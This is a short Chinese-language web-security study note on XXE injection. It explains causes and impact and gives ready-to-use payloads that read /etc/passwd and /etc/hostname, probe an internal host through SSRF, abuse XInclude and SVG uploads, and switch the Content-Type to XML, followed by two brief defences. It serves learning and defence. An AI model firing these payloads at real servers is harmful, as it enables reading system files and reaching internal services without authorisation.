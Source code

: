 # XXE
## 成因
* XML 外部實體注入(XXE)，攻擊者干擾應用程式對 XML 資料的處理，進一步存取系統或相關的外部系統資料。
## 影響
* 取得資料
* SSRF 攻擊
## 攻擊方法
### 取得資料
* 定義包含文件路徑的外部實體，取得資料。
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>
    &xxe;
    </productId>
</stockCheck>
```
### SSRF 攻擊
* 定義引入後端系統的 URL 之外部實體，來達成 SSRF 攻擊。
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<stockCheck>
    <productId>
    &xxe;
    </productId>
</stockCheck>
```
### Attack surface
#### XInclude
* 有些應用程式，可能是在後端才嵌入 xml 來處理資料 (像是 SOAP 協定)，因此我們無法在前端去改寫 `DOCTYPE`，不過我們可以透過 `XInclude` 來使後端處理時來建立XML。
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
#### file upload
* 有些檔案格式可能是透過 XML 的格式來表達，因此我們也可以透過檔案上傳的方式來達成 XXE 攻擊。
* 包含 XML 的 SVG 圖片
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
#### modified content type
* 有時我們可以透過修改 `Content-Type` 來傳遞 XML 給後端，來達成攻擊。
* 大部分後端都是接收 html form 表單，`Content-Type` 為`application/x-www-form-urlencoded`。
```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
* 不過有些應用程式，也可以接受傳遞 XML 的格式。
```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
## 防禦方法
* 禁止外部實體解析。
* 禁止 XInclude。
---
###### tags: `web security`